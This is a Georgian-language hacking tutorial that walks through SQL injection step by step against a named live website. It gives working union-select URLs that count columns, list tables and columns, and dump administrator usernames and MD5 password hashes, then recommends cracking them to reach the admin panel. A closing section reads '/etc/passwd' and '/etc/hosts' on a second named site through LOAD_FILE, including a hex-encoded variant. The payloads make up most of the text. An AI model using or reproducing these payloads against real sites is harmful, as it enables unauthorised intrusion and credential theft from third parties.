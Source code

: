 # SQL Injection - ინექცია SQL რექვესტში

ალბათ ყველა აქედან იწყებს თავის ჰაკერულ ცხოვრებას :D

ჩვენც დავიწყოთ... :D


ჩემი აზრით მაგალითებზე ყველაზე კარგად ვსწავლობთ, ამიტომ ავიღოთ რომელიმე საიტი მაგალითად :)

# ნაბიჯი #1. ვეძებთ ბაგს!!...


საიტი შემდეგია:

```
http://www.kiis.com.ua/?id=2&sp=1
```

როდესაც მოცემულია მსგავსი ბმულლი (რაღაცა.php?id=რიცხვი), ბაგის საპოვნელად საკმარისია ბმულის ბოლოში **'** -ს მიწერა.

```
http://www.kiis.com.ua/?id=2&sp=1'
```

თუ საიტი ამოგვიგდებს შეცდომას (ოღონდ არა ნებისმიერს) ესე იგი შეიძლება ინექციის განხორციელება. როგორც ხედავთ ამ შემთხვევაშიც შეგვიძლია ინექციის გაკეთება.

    პატარა გადახვევა: ამ შემთხვევაში პირველი ორი შეცდომა არის **include** ფუნქციის, რომელიც ზოგჯერ
    საშუალებას გვაძლევს განვახორციელოთ **Local/Remote File Inclusion** რომელსაც, იმედია 
    განვიხილავთ შემდეგში.


# ნაბიჯი #2. ვითვლით სტოლბებს


ამისათვის ჩვენ შეგვიძლია გამოვიყენოთ order+by ფუნქცია, მაგრამ ამან შეიძლება ყოველთვის არ გაამართლოს და უბრალოდ მოგვიწევს ამ საფეხურის გამოტოვება :)

სტოლბების დათვლა ხდება შემდეგნაირად: ვივარაუდოთ, რომ მოცემულ გვერდს აქვს 10 სტოლბა, ამის შესამოწმებლად ჩვენ ვაკეთებთ შემდეგს...

```
http://www.kiis.com.ua/?id=2&sp=1+order+by+10--
```

როგორც ვხედავთ საიტი ისევ გვიჩვენებს შეცდომას, ეს იმას ნიშნავს, რომ გვაქვს 10 სტოლბაზე ნაკლები. ვაგრძელებთ... შემდეგი ვარაუდი 5 სტოლბა...

```
http://www.kiis.com.ua/?id=2&sp=1+order+by+5--
```

როგორც ხედავთ საიტი აღარ გვაძლევს იმ შეცდომას, რომელიც საშუალებას გვაძლევს განვახორციელოთ ინექცია (მაპატიეთ ტაფტალოგიისთვის:). ეს იმას ნიშნავს, რომ გვაქვს 5 სტოლბაზე მეტი.

ახლა უკვე ჩვენ ვიცით, რომ გვაქვს 5-ზე მეტი და 10-ზე ნაკლები სტოლბა. ვაგრძელებთ თვლას... ვივარაუდოთ 8 სტოლბა:

```
http://www.kiis.com.ua/?id=2&sp=1+order+by+8--
```

ისევ ვხედავთ შეცდომა. ვცადოთ 9 :)

```
http://www.kiis.com.ua/?id=2&sp=1+order+by+9--
```

საიტი არ აგდებს შეცდომას. ალბათ მიხვდით რასაც ნიშნავს ეს :) ჩვენ გვაქვს 9 სტოლბა. :)

# ნაბიჯი #3. ვიპოვოთ პრინტაბელური სტოლბა


ინფორმაციის გამოსატანად ჩვენ დაგვჭირდება **union+select** ბრძანება. რადგანაც ჩვენ გვაქვს 9 სტოლბა ჩვენი ბმული მიიღებს შემდეგ სახეს:

```
http://www.kiis.com.ua/?id=2&sp=1+union+select+1,2,3,4,5,6,7,8,9--
```

ალბათ შეამჩნიეთ ციფრი 5, რომელიც გაჩნდა ჩვენს გვერდზე. ეს ნიშნავს, რომ პრინტაბული სტოლბა არის 5.

პრინტაბელური სტოლბა საჭიროა იმისათვის, რომ გვერდზე გამოვიყვანოთ ჩვენს მიერ (შემდგომში) მიწოდებული ბრძანების შედეგები.

# ნაბიჟი #4. გავიგოთ sql-ის ვერსია


ამისათვის შემოგთავაზებთ ორ ბრძანებას, **@@version** და **version()**. პრინტაბელი სტოლბის მაგივრად ჩვენ უნდა ჩავსვათ რომელიმე ამ ბრძანებებისგან, საპასუხოდ კი 5-იანის (პრინტაბელური სტოლბის) ადგილას უნდა გამოვიდეს sql-ის ვერსსია. ვაგრძელებთ... ჩვენმა ბმულმა მიიღო შემდეგი სახე:

```
http://www.kiis.com.ua/?id=2&sp=1+union+select+1,2,3,4,@@version,6,7,8,9--
```

//sql-ის 4 ვერსიაზე ჩვენ ვერ შევძლებთ table-ებისა და column-ების სახელების გაგებას, ამიტომ მოგვიწევს მათი შერჩევა ხელით. გავაგრძელოთ კითხვა, ამ საკითხს მივუბრუნდები სტატიის ბოლოში.//

ამ შემთხვევაში ვხედავთ, რომ sql-ის ვერსიაა 5.x.x.

# ნაბიჯი #5. ვეძებთ table-ებს


ეს ნიშნავს, რომ ჩვენ შეგვიძლია გავიგოთ ყველა table და column შემდეგი ბრძანებების საშუალებით... 

```
group_concat(table_name)    +from+information_schema.tables
```

ბმული გამოიყურება შემდეგნაირად:

```
http://www.kiis.com.ua/?id=2&sp=1+union+select+1,2,3,4,group_concat(table_name),6,7,8,9+from+information_schema.tables--
```

როგორც ვხედავთ გვერდზე გამოვიდა table-ები, მაგრამ ეს არაა სრული სია. ამ table-ებს შეიძლება დავარქვათ დეფაულტ table-ები, ამიტომ ჩვენ უნდა მოვიხხმარიოთ სხვა ხერხი. ჩვენს ბრძანებას 

```
group_concat(table_name) უნდა მივცევთ ცოტა განსხვავებული სახე: **concat(table_name)**
```

ბმული გამოიყუება შემდეგნაირად:

```
http://www.kiis.com.ua/?id=2&sp=-1+union+select+1,2,3,4,concat(table_name),6,7,8,9+from+information_schema.tables--
```

გამოყოფს table-ებს ერთმანეთისაგან.

# ნაბიჯი #5. ვეძებთ column-ებს


ჩვენ უკვე გავიგეთ table-ების სახელები. ახლა უნდა ამოვარჩიოთ მათგან ყველაზე მიმზიდველი :D ამ შემთხვევაში ალბათ **jos_users**. ამის შემდეგ ჩვენ უნდა გავიგოთ column-ების სახელები, რომლებიც შეესაბამება ამ table-ს. ამისათვის ჩვენ ვიყენებთ შემდეგ ბრძანებას:

```
group_concat(column_name)  +from+information_schema.columns+where+table_name=0xTable
```

სადაც Table ჩვენი არჩეული ცხრილის ჰექსია. ტექსტის ჰექსებში გადაყვანა შეგიძლიათ  [ამ ბმულზე](http://www.swingnote.com/tools/texttohex.php).

ჩვენს შემთხვევაში **group_concat** ბრძანება არ მუშაობს გამართულად, ამიტომ აქაც ვიყენებთ მას სახეცვლილი ფორმით:  **concat(column_name)**  

ამ დროისთვის ჩვენი ბმული იღებს ასეთ სახეს:

```
http://www.kiis.com.ua/?id=2&sp=-1+union+select+1,2,3,4,concat(column_name),6,7,8,9+from+information_schema.columns+where+table_name=0x6a6f735f7573657273--
```

**6a6f735f7573657273**  //jos_users//-ის ჰექსია.

# ნაბიჯი #6. ინფორმაციის ამოღება

ჩვენ უკვე ვიცით **jos_users** table-ს შესაბამისი column-ები. ახლა უნდა ავირჩიოთ მათგან რამოდენიმე, ჩვენთვის საინტერესო. ამ შემთხვევაში გვაინტერესებს username და password. **jos_users** table-სგან რომ მოვიპოვოთ ინფორმაცია username-სა და password-ების შესახებ ვაკეთებთ შემდეგს:

```
http://www.kiis.com.ua/?id=2&sp=-1+union+select+1,2,3,4,concat(username,0x3a,password),6,7,8,9+from+jos_users--
```

3a არის **:** -ის ჰექსი (სტანდარტულად, ჰექსის წინ იწერება 0x). ანუ - ჯერ უნდა გამოვიდეს username, შემდეგ :  შემდეგ კი password.

ამ ბმულის მეშვეობით ჩვენ შევძელით ადმინის, ტესტ ადმინის და PR მენეჯერის იუზერნეიმებისა და პაროლების გამოტანა. პაროლი არის დაკრიპტული, MD5 ალგორითმით. მისი გაკრეკვა შეიძლება სხვადასხვა პროგრამების დახმარებით, ასევე არსებობს [[reference:hash_crackers|ონლაინ კრეკერები]].

პაროლის გარკეკვის შემდეგ, შეგვიძლია მოვძებნოთ საიტის ადმინ პანელი და გამოვიყენოთ ადმინის ფუნქციები.


მივუბრუნდეთ 4.x.x sql-ის ვერსიის შემთხვევას. ესეთ შემთხვევაში ჩვენ ვერ გავიგებდით table-ებისა და column-ების სახელებს და მოგვიწევდა მათი ხელით, ან რაიმე პროგრამით მორგება. ეს კი მტკივნეული პროცესია და არც ისე დიდია გამართლების შანსი.

# ნაბიჯი #7. Load File ფუნქციის შესახებ


არის ისეთი შემთხვევებიც როცა ჩვენ შეგვიძლია სხვადასხვა ფაილების წაკითხვა სერვერზე, ინექციის საშუალებით. მგონი საკმარისი იქნება ერთი მაგალითის ჩვენება... და აი ისიც:

```
http://wwww.breakfastandbrunch.com/shop.php?catid=-2+union+select+LOAD_FILE('/etc/passwd')--
```

პრინტაბელური სტოლბის ადგილას უნდა ჩავწეროთ მაგალითად, **LOAD_FILE('/etc/passwd')** ან **LOAD_FILE('/etc/hosts')**

```
http://www.breakfastandbrunnch.com/shop.php?catid=-2+union+select+LOAD_FILE('/etc/hosts')--
```

აქაც შესაძლებელია ჰექსების გამოყენება, მაგალითად:

```
http://www.breakfastandbrunch.com/shop.php?catid=-2+union+select+LOAD_FILE(0x2f6574632f706173737764)--
```

სულ ეს იყო.

მადლობა HektoR-ს რითმისთვის :D

გმადლობთ ყურადღებისთვის.
